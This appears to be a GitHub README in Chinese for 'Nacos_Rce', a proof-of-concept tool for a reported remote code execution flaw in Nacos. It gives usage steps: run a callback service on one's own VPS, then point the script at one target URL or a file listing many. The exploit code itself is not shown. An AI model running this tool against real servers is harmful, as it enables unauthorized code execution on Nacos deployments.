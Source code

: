 # Nacos_Rce
网传nacos_rce漏洞poc



![image](https://github.com/user-attachments/assets/cf7e3ac3-bd47-462c-accc-4fc21b8a731f)



</br>

# 使用方法
---

### 1. 将config.py和service.py放在自己的vps上并运行

```python service.py```

![image](https://github.com/user-attachments/assets/e7e8b68c-7147-4ca3-a5bf-07b89620575f)

![image](https://github.com/user-attachments/assets/a3feb618-8255-4b4a-9b0a-ae575e7bceb9)


### 2. 单url验证
```python .\Nacos_Rce.py -t vps的ip地址 -p 5000 -u http://xxx.xxx.xxx```
![image](https://github.com/user-attachments/assets/17683bc9-5851-4222-9df7-6b71a8ddd591)
![image](https://github.com/user-attachments/assets/66c7cba3-489a-4bf4-876d-f2e375a82b44)



### 3. 多url验证
```python .\Nacos_Rce.py -t vps的ip地址 -p 5000 -f ./url.txt```
![image](https://github.com/user-attachments/assets/7eecdf9e-7c74-4115-afbc-5af9362f4db9)







